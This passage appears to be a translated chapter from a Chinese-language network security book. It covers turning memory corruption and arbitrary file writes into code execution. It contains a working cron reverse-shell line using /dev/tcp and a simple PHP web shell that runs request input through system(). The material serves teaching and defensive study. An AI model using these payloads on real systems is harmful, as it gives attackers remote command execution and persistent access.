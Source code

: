 *清单 10-7：一个简单的连接会话结构*

对于这个例子，我们假设一些代码检查会判断会话是否为管理员会话，这将只允许执行某些任务，如更改系统配置。如果你在会话中被认证为管理员，系统中会有直接的命令可以执行本地 shell 命令，如清单 10-8 所示。

```
Command c = ReadCommand(session->socket);
if (c.command == CMD_RUN_COMMAND
    && session->is_admin) {
  system(c->data);
}
```

*清单 10-8：以管理员身份打开`run`命令*

通过发现会话对象在内存中的位置，你可以将`is_admin`值从`0`更改为`1`，从而打开`run`命令，让攻击者获得对目标系统的控制。我们还可以更改`socket`值，使其指向另一个文件，这会导致应用程序在写入响应时将数据写入任意文件，因为在大多数类似 Unix 的系统中，文件描述符和套接字实际上是同类型的资源。你可以使用`write`系统调用像写入套接字一样写入文件。

虽然这是一个人为构造的例子，但它应该能帮助你理解在现实世界中的网络应用程序发生了什么。对于任何使用某种身份验证机制来区分用户和管理员职责的应用程序，你通常可以通过这种方式颠覆安全系统。

##### **利用高权限文件写入**

如果应用程序以提升的权限运行，如 root 或管理员权限，你在利用任意文件写入时的选择将更加广泛。一种技术是覆盖你知道会被执行的可执行文件或库，例如运行你正在利用的网络服务的可执行文件。许多平台提供其他执行代码的方式，例如定时任务或 Linux 上的`cron`作业。

如果你拥有高权限，你可以将自己的 `cron` 任务写入某个目录并执行它们。在现代 Linux 系统中，通常在 */etc* 目录下已经有多个 `cron` 目录，你可以将任务写入这些目录，每个目录的后缀表示任务的执行时间。然而，写入这些目录需要你赋予脚本文件可执行权限。如果你的任意文件写入操作仅提供读写权限，你需要将文件写入到 */etc/cron.d* 目录并使用 Crontab 文件来执行任意系统命令。Listing 10-9 展示了一个简单的 Crontab 文件示例，它每分钟执行一次并将一个 shell 进程连接到任意主机和 TCP 端口，你可以通过该连接访问系统命令。

```
* * * * * root /bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'
```

*Listing 10-9：一个简单的反向 shell Crontab 文件*

这个 Crontab 文件必须写入到 */etc/cron.d/run_shell*。请注意，某些版本的 bash 不支持这种反向 shell 语法，因此你可能需要使用其他方法，比如 Python 脚本，来实现相同的效果。现在让我们来看看如何利用低权限文件写入漏洞。

##### **利用低权限文件写入**

如果你在写入时没有高权限，情况并非完全无望；然而，你的选择会更有限，你仍然需要了解系统中可以利用的资源。例如，如果你正在尝试利用一个 web 应用程序，或者机器上安装了 web 服务器，可能有机会放置一个服务器端渲染的网页，然后通过 web 服务器访问它。许多 web 服务器也会安装 PHP，这使你能够作为 web 服务器用户执行命令，并通过将 Listing 10-10 中显示的文件写入 web 根目录（它可能位于 */var/www/html* 或其他多个位置）并使用 *.php* 扩展名来返回命令的执行结果。

```
<?php
if (isset($_REQUEST['exec'])) {
  $exec = $_REQUEST['exec'];
  $result = system($exec);
  echo $result;
}
?>
```

*Listing 10-10：一个简单的 PHP shell*

在你将这个 PHP shell 文件放到 web 根目录后，你可以通过请求类似 *http://server/shell.php?exec=CMD* 的 URL，在 web 服务器的上下文中执行系统上的任意命令。该 URL 会导致 PHP 代码在服务器上执行：PHP shell 会从 URL 中提取 `exec` 参数并将其传递给系统 API，执行任意命令 `CMD` 并返回结果。
